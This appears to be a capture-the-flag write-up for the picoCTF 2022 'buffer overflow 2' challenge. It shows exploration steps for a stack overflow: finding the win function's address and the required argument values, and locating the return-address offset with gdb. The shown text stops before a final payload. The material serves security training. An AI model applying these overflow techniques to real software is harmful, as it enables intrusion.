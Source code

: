 # buffer overflow 2
## Description
- **Tags**:
    - picoCTF 2022
    - Binary Exploitation
    - gets
    - arguments_on_the_stack

- **Author**:
    - Sanjay C
    - Palash Oswal

Control the return address and arguments

This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/345/vuln)?
You can view source [here](https://artifacts.picoctf.net/c/345/vuln.c). And connect with it using

```
nc saturn.picoctf.net 57759
```

## Exploration

```
$ grep '!=' vuln.c
  if (arg1 != 0xCAFEF00D)
  if (arg2 != 0xF00DF00D)

$ readelf -s vuln.elf | grep win
    64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win

$ gdb vuln.elf
gef➤  pattern create 120
[+] Generating a pattern of 120 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
[+] Saved as '$_gef2'
gef➤  r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
gef➤  pattern search $eip
[+] Searching for '$eip'
[+] Found at offset 112 (little-endian search) likely
[+] Found at offset 304 (big-endian search)
```

